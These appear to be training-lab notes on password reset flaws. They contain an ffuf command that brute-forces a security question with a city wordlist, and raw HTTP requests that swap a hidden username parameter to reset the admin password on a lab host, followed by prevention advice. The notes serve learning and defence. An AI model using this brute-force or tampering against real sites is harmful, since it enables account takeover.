 https://github.com/datasets/world-cities/blob/master/data/world-cities.csv

```shell-session
$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

![[Pasted image 20241106124858.png]]

```shell-session
$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```

```shell-session
$ cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

### Manipulating the Password Reset Request

A vulnerability in the password reset flow can arise when attackers manipulate parameters, often hidden, to reset the password of a different account. This flaw allows attackers to bypass security questions and alter the credentials of accounts they do not own.

#### Example Password Reset Flow

Consider a password reset process in which users are prompted to enter their username and answer a security question.

1. **Submitting Username**: The first request sends the username:
    ```http
    POST /reset.php HTTP/1.1
    Host: pwreset.htb
    Content-Length: 18
    Content-Type: application/x-www-form-urlencoded
    Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

    username=htb-stdnt
    ```

2. **Answering the Security Question**: Next, the user provides the answer to a security question, with the username included as a hidden parameter:
    ```http
    POST /security_question.php HTTP/1.1
    Host: pwreset.htb
    Content-Length: 43
    Content-Type: application/x-www-form-urlencoded
    Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

    security_response=London&username=htb-stdnt
    ```

3. **Resetting the Password**: Finally, the user sets a new password, with the username parameter included again:
    ```http
    POST /reset_password.php HTTP/1.1
    Host: pwreset.htb
    Content-Length: 36
    Content-Type: application/x-www-form-urlencoded
    Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

    password=P@$$w0rd&username=htb-stdnt
    ```

#### Exploiting the Vulnerability

If the application does not validate that the username remains consistent throughout the entire process, an attacker can alter the `username` parameter in the final reset request to change the password for any account:

```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```

In this scenario, the attacker bypasses the security question verification for a different account (e.g., `admin`) by simply manipulating the username parameter during the password reset stage.

#### Prevention Measures

To secure password reset functionality:

- **Maintain Consistency in State**: Ensure that the username and other session data remain consistent throughout the process. The system should verify that each step matches the intended user.
- **Secure Session Management**: Link the password reset process to a secure, temporary session that expires once the process is completed, preventing any manipulation of critical parameters.
- **Comprehensive Testing**: Regularly review the password reset flow for security issues, as even small logic flaws can lead to severe vulnerabilities.

By rigorously enforcing consistency and protecting sensitive parameters, you can prevent unauthorized password resets and protect user accounts from unauthorized access.